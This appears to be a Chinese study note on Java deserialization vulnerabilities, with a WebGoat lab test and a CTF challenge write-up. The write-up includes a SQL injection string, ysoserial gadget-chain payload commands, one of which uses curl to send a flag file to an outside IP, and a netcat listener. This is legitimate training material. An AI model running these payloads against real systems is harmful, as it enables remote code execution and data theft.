






### 导图




### 序列化

序列化 (Serialization)：将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对
象将其当前状态写入到临时或持久性存储区。

### 反序列化

反序列化：从存储区中读取该数据，并将其还原为对象的过程，称为反序列化。

### Java中的API实现:

位置: Java.io.ObjectOutputStream            java.io.ObjectlnputStream

**序列化**:	**ObjectOutputStream类--> write0bject()**

注:该方法对参数指定的ob j对象进行序列化，把字节序列写到一个目标输出流中
按Java的标准约定是给文件一个.ser扩展名

**反序列化**: 	**ObjectInputStream类 --> read0bject()**

注:该方法从一个源输入流中读取字节序列,再把它们反序列化为一个对象,并将其返回。


### 演示案例：

### Java 反序列化及命令执行代码测试








### WebGoat_Javaweb 靶场反序列化测试


```txt
启动 javaweb
java -jar webgoat-server-8.2.2.jar
访问
http://127.0.0.1:8080/WebGoat
```



```txt

java -Dhibernate2 -cp hibernate-core-5.4.28.Final.jar;ysoserial-master-8eb5cbfbf6-1.jar
ysoserial.GeneratePayload Hibernate1 calc.exe > payload.bin
```



### 2020-网鼎杯-朱雀组-Web-think_java 真题复现

**下方的特征可以作为序列化的标志参考:**

- **一段数据以rO0AB开头， 你基本可以确定这串就是JAVA序列化base64加密的数据。**
- **或者如果以aced开头，那么他就是这一段java序列化的16进制。|**

```txt
0x01 注入判断，获取管理员帐号密码：
根据提示附件进行 javaweb 代码审计，发现可能存在注入漏洞
另外有 swagger 开发接口，测试注入漏洞及访问接口进行调用测试
数据库名：myapp,列名 name,pwd
注入测试：
POST /common/test/sqlDict
dbName=myapp?a=' union select (select pwd from user)#
0x02 接口测试
/swagger-ui.html 接口测试：
{
"password":"ctfhub_29588_13038",
"username": "ctfhub"
}
登录成功返回数据：
{
"data": "Bearer
rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZ
y9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMj
yPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABmN0Zm
h1Yg==",
"msg": "登录成功",
"status": 2,
"timestamps": 1594549037415
}

0x03 回显数据分析攻击思路
JAVAWEB 特征可以作为序列化的标志参考:
一段数据以 rO0AB 开头，你基本可以确定这串就是 JAVA 序列化 base64 加密的数据。
或者如果以 aced 开头，那么他就是这一段 java 序列化的 16 进制。
分析数据：
先利用 py2 脚本 base64 解密数据
import base64
a =
"rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFu
Zy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDM
jyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkb
Wlu"
b = base64.b64decode(a).encode('hex')
print(b)
再利用 SerializationDumper 解析数据
java -jar SerializationDumper.jar base64 后的数据

0x04 生成反序列化 payload
解密后数据中包含帐号等信息，通过接口/common/user/current 分析可知数据有接受，说明存在反
序列化操作，思路：将恶意代码进行序列化后进行后续操作
利用 ysoserial 进行序列化生成
java -jar ysoserial-master-30099844c6-1.jar ROME "curl http://47.75.212.155:4444 -d @/flag" > xiaodi.bin
利用 py2 脚本进行反序列化数据的提取
import base64
file = open("xiaodi.bin","rb")
now = file.read()
ba = base64.b64encode(now)
print(ba)
file.close()

0x05 触发反序列化，获取 flag
服务器执行：nc -lvvp 4444
数据包直接请求获取进行反序列数据加载操作
```


### 涉及资源：

https://github.com/frohoff/ysoserial/releases
https://github.com/WebGoat/WebGoat/releases
https://github.com/NickstaDB/SerializationDumper/releases/tag/1.12

```python
import base64
c=open("payload.bin","rb").read()
cc=base64.urlsafe_b64encode(c)
open("payload.txt","wt",ecoding="utf-8").write(cc.decode())
```

